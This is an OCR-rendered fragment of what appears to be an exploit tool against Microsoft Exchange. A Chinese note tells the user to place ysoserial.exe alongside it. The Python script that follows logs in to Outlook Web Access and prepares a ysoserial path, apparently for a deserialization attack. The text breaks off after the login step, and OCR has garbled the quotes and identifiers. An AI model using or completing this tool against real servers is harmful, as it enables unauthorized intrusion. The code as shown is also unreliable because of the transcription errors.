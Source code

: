 > 需要把`ysoserial.exe` 放当前目录
> 
> https://github.com/ianxtianxt/ysoserial.net/

```
# encoding: UTF-8
import requests
import readline
import argparse
import re
import sys
import os
import urllib3
from urllib.parse import urlparse
from urllib.parse import quote
urllib3.disable_warnings()

ysoserial_path = os.path.abspath(os.path.dirname(**file**))+"/ysoserial-1.32/"

session = requests.Session()

def get_value(url, user, pwd):

print("[*] Tring to login owa…")

tmp = urlparse(url)

base_url = “{}://{}”.format(tmp.scheme, tmp.netloc)

paramsPost = {“password”: “”+pwd+"", “isUtf8”: “1”, “passwordText”: “”, “trusted”: “4”,

“destination”: “”+url+"", “flags”: “4”, “forcedownlevel”: “0”, “username”: “”+user+""}

headers = {“Accept”: "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", “Upgrade-Insecure-Requests”: “1”,

“User-Agent”: “Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0”, “Connection”: “close”, “Accept-Language”: “en-US,en;q=0.5”, “Accept-Encoding”: “gzip, deflate”, “Content-Type”: “application/x-www-form-urlencoded”, “Cookie”: “PrivateComputer=true; PBack=0”}

cookies = {“PBack”: “0”, “PrivateComputer”: “true”}

login_url = base_url + ‘/owa/auth.owa’

print("[+] Login url: {}".format(login_url))

try:

login = session.post(login_url, data=paramsPost,

headers=headers, verify=False, timeout=30)

print("[*] Status code: %i" % login.status_code)

if “reason=” in login.text or “reason=” in login.url and “owaLoading” in login.text:

print("[!] Login Incorrect, please try again with a different account…")

# sys.exit(1)

#print(str(response.text))

except Exception as e:

```